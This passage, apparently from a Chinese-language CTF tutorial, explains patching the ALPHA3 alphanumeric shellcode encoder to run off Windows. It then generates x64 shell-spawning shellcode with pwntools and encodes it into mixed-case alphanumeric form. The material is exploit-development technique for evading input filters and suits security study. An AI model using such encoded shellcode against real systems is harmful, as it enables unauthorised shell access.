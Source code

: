 看下报错信息，发现错误在`test/__init__.py`中，打开源码，发现有个**判断平台**的代码，如果不是`win32`就报错，解决方法很简单，只需要把后两行代码注释掉就行，修改如下：

```python
if (sys.platform == 'win32'):
	# ...
    TEST_SHELLCODE_OUTPUT = "Hello, world!\r\n"
#else:
#  raise OSError("Unsupported platform for testing.");
```

再次运行就正常：

```bash
% python ALPHA3.py
____________________________________________________________________________
      ,sSSs,,s,  ,sSSSs,    ALPHA3 - Alphanumeric shellcode encoder.
     dS"  Y$P"  YS"  ,SY    Version 1.0 alpha
    iS'   dY       ssS"     Copyright (C) 2003-2009 by SkyLined.
    YS,  dSb   SP,  ;SP     <berendjanwever@gmail.com>
    `"YSS'"S'  "YSSSY"      http://skypher.com/wiki/index.php/ALPHA3
____________________________________________________________________________

[Usage]
  ALPHA3.py  [ encoder settings | I/O settings | flags ]

# ...
```

> 修改完之后还需要编译源码，但是编译源码的工具也在google上，如果懒得自己编译，可以直接下载我修改版: https://github.com/TaQini/alpha3
>
> ```bash
> git clone https://github.com/TaQini/alpha3.git
> ```

### 生成shellcode

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
```

将上述代码保存成`sc.py`放到`alpha3`目录下，然后执行如下命令生成待编码的`shellcode`文件

```bash
python sc.py > shellcode
```

> 默认生成的是x64的`sys_execve("/bin/sh",0,0)`，可以修改成其他的arch或shellcode

### x64 alpha编码

生成x64 alpha shellcode

```shell
python ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"
```
